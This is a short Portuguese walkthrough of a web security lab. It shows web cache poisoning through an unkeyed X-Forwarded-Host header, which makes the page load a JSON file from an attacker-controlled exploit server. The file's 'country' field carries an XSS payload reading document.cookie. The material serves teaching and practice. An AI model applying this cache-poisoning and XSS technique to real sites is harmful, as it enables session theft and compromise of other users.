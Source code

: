 O HTML mostra um json: 

```html
<script>
    data = {
        "host":"example.com",
        "path":"/",
    }
</script>
```

Que pode ser alterado usando a unkeyed X-Forwarded-Host (o Param Miner descobre isso).

Esse **data.host** é usado para importar um arquivo .json através desse *script*:

```html
<script>
    initGeoLocate('//' + data.host + '/resources/json/geolocate.json');
</script>
```

Essa função **initGeolocate** presente em `/resources/js/geolocate.js` pega o atributo "country" presente no json e lança no HTML.

Usando exploit server do lab basta configurar os campos:

```
/resources/json/geolocate.json`

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: *

{
"country":"<img src=1 onerror=javascript:alert(document.cookie)></img>"
}
```

GG